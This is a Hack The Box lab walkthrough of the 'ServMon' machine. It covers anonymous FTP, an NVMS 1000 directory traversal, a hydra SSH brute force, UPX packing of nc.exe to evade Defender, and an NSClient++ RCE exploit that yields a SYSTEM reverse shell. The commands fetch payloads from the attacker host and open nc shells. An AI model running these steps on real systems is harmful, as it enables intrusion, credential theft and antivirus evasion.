





# \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br>  <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"></a> | </a> |

# Table of contents

<!-- MarkdownTOC -->

- [Information Gathering](#information-gathering)
	- [Openning Services](#openning-services)
	- [Microsoft ftpd 21](#microsoft-ftpd-21)
	- [NVMS 1000 80](#nvms-1000-80)
	- [Server Message Block](#server-message-block)
	- [NSClient++ 8443](#nsclient-8443)
- [Foothold](#foothold)
	- [Direc Travel SSH Credential](#direc-travel-ssh-credential)
- [Privilege Escalation](#privilege-escalation)
	- [SSH Local Port Forwarding](#ssh-local-port-forwarding)
	- [Simple Bypass Defender](#simple-bypass-defender)
	- [NSClient Script Exploitation](#nsclient-script-exploitation)

<!-- /MarkdownTOC -->

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -Pn -p- --min-rate 1000 10.10.10.184
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.

[+] Openning ports: 21,22,80,135,139,445,5040,5666,6063,6699,7680,8443,49664,49665,49666,49667,49668,49669,49670

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.184 -p21,22,80,135,139,445,5040,5666,6063,6699,7680,8443,49664,49665,49666,49667,49668,49669,49670
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-09 12:59 +07
Nmap scan report for 10.10.10.184
Host is up (0.27s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_01-18-20  12:05PM       <DIR>          Users
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp    open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 b9:89:04:ae:b6:26:07:3f:61:89:75:cf:10:29:28:83 (RSA)
|   256 71:4e:6c:c0:d3:6e:57:4f:06:b8:95:3d:c7:75:57:53 (ECDSA)
|_  256 15:38:bd:75:06:71:67:7a:01:17:9c:5c:ed:4c:de:0e (ED25519)
80/tcp    open  http
| fingerprint-strings: 
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo: 
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
|   NULL: 
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
5666/tcp  open  tcpwrapped
6063/tcp  open  x11?
6699/tcp  open  napster?
7680/tcp  open  pando-pub?
8443/tcp  open  ssl/https-alt
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|     Location: /index.html
|     workers
|_    jobs
| http-title: NSClient++
|_Requested resource was /index.html
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2020-01-14T13:24:20
|_Not valid after:  2021-01-13T13:24:20
|_ssl-date: TLS randomness does not represent time
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
<snip>
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 1m21s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-09T06:03:58
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 204.91 seconds
```

### Microsoft ftpd 21

Port 21 is ftpd service allowed anonymous access.

```
┌──(Hades㉿10.10.14.5)-[0.7:21.2]~/walkthrough/hackthebox/servmon
└─$ ftp 10.10.10.184 
Connected to 10.10.10.184.
220 Microsoft FTP Service
Name (10.10.10.184:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
```

I access to ftp server. This folder contain 2 Users `Nadine` and `Nathan`.

```
ftp> ls Users
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:06PM       <DIR>          Nadine
01-18-20  12:08PM       <DIR>          Nathan
226 Transfer complete.
```

Checking Nadine folder, I got `Confidential.txt` file.

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/servmon)

```
ftp> ls Nadine
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:08PM                  174 Confidential.txt
226 Transfer complete.
```

Download file `Confidential.txt` and this is a mail from Nadine. The important info is `Passwords.txt file on your Desktop`.

```
┌──(Hades㉿10.10.14.5)-[0.7:21.1]~/walkthrough/hackthebox/servmon
└─$ cat Confidential.txt 
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
```

Checking Nathan folder, I got `Notes to do.txt` file.

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/servmon)

```
ftp> ls Nathan
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:10PM                  186 Notes to do.txt
226 Transfer complete.
```

File `Notes to do.txt` said that, Admin complete change password for NVMS and lock down access to NSClient.

```
┌──(Hades㉿10.10.14.5)-[0.7:21.1]~/walkthrough/hackthebox/servmon
└─$ cat Notes\ to\ do.txt 
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
```

### NVMS 1000 80

The home page is `NVMS 1000`.



Searching public exploit using `searchsploit`.

```
┌──(Hades㉿10.10.14.4)-[5.0:22.5]~/walkthrough/hackthebox/servmon
└─$ searchsploit nvms 1000
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
NVMS 1000 - Directory Traversal                             | hardware/webapps/47774.txt
TVT NVMS 1000 - Directory Traversal                         | hardware/webapps/48311.py
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

Follow exploit `hardware/webapps/47774.txt`, I use BurpSuite to sent Traversal payload and got the contain of file `windows/win.ini`

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/servmon)



### Server Message Block

Enum SMB service at port 139 and 445, But server is not allow access.

```
### SMB Enumeration (445) ############################
smbmap -H 10.10.10.184 -u guest                                                                                                                                             
[!] Authentication error on 10.10.10.184
smbclient -L 10.10.10.184
session setup failed: NT_STATUS_ACCESS_DENIED
```

### NSClient++ 8443

The home page is `NSClient++`.



Searching public exploit using `searchsploit`. I got 2 exploit.

```
┌──(Hades㉿10.10.14.4)-[5.5:37.1]~/walkthrough/hackthebox/servmon
└─$ searchsploit NSClient
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
NSClient++ 0.5.2.35 - Authenticated Remote Code Execution   | json/webapps/48360.txt
NSClient++ 0.5.2.35 - Privilege Escalation                  | windows/local/46802.txt
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

## Foothold

### Direc Travel SSH Credential

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/servmon)

At port 21, I know that User Nadine left file `Password.txt` at User Nathan's Desktop folder. Full directory is `Users/Nathan/Desktop/Passwords.txt`.

Using NVMS 1000 - Directory Traversal `hardware/webapps/47774.txt` at port 80, I add directory of `Password.txt` to read it.


I have a list of password, let's save it to file and using hydra to brute force in ssh service.

First, with user nathan, there is no password found.

```
┌──(Hades㉿10.10.14.4)-[5.8:35.8]~/walkthrough/hackthebox/servmon
└─$ hydra -l nathan -P Password.txt 10.10.10.184 -t 4 ssh 
<snip>
[DATA] attacking ssh://10.10.10.184:22/
1 of 1 target completed, 0 valid password found
<snip>
```

Second, I try list password with user nadine and the password `L1k3B1gBut7s@W0rk` was found.

```
┌──(Hades㉿10.10.14.4)-[5.8:35.7]~/walkthrough/hackthebox/servmon
└─$ hydra -l nadine -P Password.txt 10.10.10.184 -t 4 ssh
<snip>
[DATA] attacking ssh://10.10.10.184:22/
[22][ssh] host: 10.10.10.184   login: nadine   password: L1k3B1gBut7s@W0rk
1 of 1 target successfully completed, 1 valid password found
<snip>
```

SSH to server using knowed credential 'nadine:L1k3B1gBut7s@W0rk', I got user access.

```
┌──(Hades㉿10.10.14.4)-[5.8:35.8]~/walkthrough/hackthebox/servmon
└─$ ssh nadine@10.10.10.184                   
nadine@10.10.10.184's password: 
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>whoami
servmon\nadine
```

## Privilege Escalation

Follow exploit NSClient++ 0.5.2.35 - Authenticated Remote Code Execution `windows/local/46802.txt`

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/servmon)

> Grab web administrator password

- open `c:\program files\nsclient++\nsclient.ini`

or

- run the following that is instructed when you select forget password

```	
nadine@SERVMON c:\Temp>cd "C:\Program Files\NSClient++"
nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT
```

> Login and enable following modules including enable at startup and save configuration

	- CheckExternalScripts
	- Scheduler

I login to NSClient with password `ew2x6SsGTxjRwXOT` but I still got 403. At `Notes to do.txt`, I confirmed that admin was lock down access to NSClient from public nerwork.



### SSH Local Port Forwarding

Using SSH local port forwarding to connect NSClient from localhost.

```
┌──(Hades㉿10.10.14.4)-[4.4:35.9]~/walkthrough/hackthebox/servmon
└─$ ssh -L 8443:127.0.0.1:8443 nadine@10.10.10.184
nadine@10.10.10.184's password:
Microsoft Windows [Version 10.0.18363.752]          
(c) 2019 Microsoft Corporation. All rights reserved.
                                                    
nadine@SERVMON C:\Users\Nadine>
```

Access to `NSClient` at `https://127.0.0.1:8443/index.html#/settings`. I saw the External Script and Scheduler was enabled.



> Download `nc.exe` and `shell.bat` to c:\temp from attacking machine

Next step, I sent file `nc.exe` to Windows machine, but this file cannot execute and will be delete after downloading. An anti-virus have been installed.

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/servmon)

```
nadine@SERVMON C:\Users\Nadine>cd c:\temp
nadine@SERVMON c:\Temp>powershell wget 10.10.14.4/nc.exe -outfile nc.exe
nadine@SERVMON c:\Temp>nc.exe
The system cannot execute the specified program.
```

### Simple Bypass Defender

Simple packed file `nc.exe` with UPX.

```
┌──(Hades㉿10.10.14.4)-[5.4:36.9]~/walkthrough/hackthebox/servmon
└─$ upx -9 nc.exe
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2020
UPX 3.96        Markus Oberhumer, Laszlo Molnar & John Reiser   Jan 23rd 2020

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
     59392 ->     29696   50.00%    win32/pe     nc.exe                        

Packed 1 file.
```

Download file `nc.exe` again and try to execute it. Now, I can run `nc.exe` to create reverse shell later.

```
nadine@SERVMON c:\Temp>powershell wget 10.10.14.4/nc.exe -outfile nc.exe
nadine@SERVMON c:\Temp>nc.exe
Cmd line:
```

Download file `shell.bat`

```
nadine@SERVMON c:\Temp>powershell wget 10.10.14.4/shell.bat -outfile shell.bat
nadine@SERVMON c:\Temp>shell.bat
```

> Setup listener on attacking machine


After run file shell.bat, I got reverse shell to confirm this work, let's do final step to get admin shell.

```
┌──(Hades㉿10.10.14.4)-[5.4:36.9]~/walkthrough/hackthebox/servmon
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.184] 49681
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.
nadine@SERVMON c:\Temp>
```

### NSClient Script Exploitation

Using exploit `json/webapps/48360.txt` in python file `48360.py` and run it with knowed info.

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/servmon)

```
┌──(Hades㉿10.10.14.4)-[3.5:41.0]~/walkthrough/hackthebox/servmon
└─$ python 48360.py -t 127.0.0.1 -P 8443 -p ew2x6SsGTxjRwXOT -c 'c:\Temp\shell.bat'
[!] Targeting base URL https://127.0.0.1:8443
[!] Obtaining Authentication Token . . .
[+] Got auth token: frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ
[!] Enabling External Scripts Module . . .
[!] Configuring Script with Specified Payload . . .
[+] Added External Script (name: OQvYiexxJhGMF)
[!] Saving Configuration . . .
[!] Reloading Application . . .
[!] Waiting for Application to reload . . .
[!] Obtaining Authentication Token . . .
[+] Got auth token: frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ
[!] Triggering payload, should execute shortly . . .
[!] Timeout exceeded. Assuming your payload executed . . .
```

After wait a long time, I have system shell in the listener.

```
┌──(Hades㉿10.10.14.4)-[3.8:37.7]~
└─$ sudo nc -nvlp 443
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.184] 51227
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system

C:\Program Files\NSClient++>
```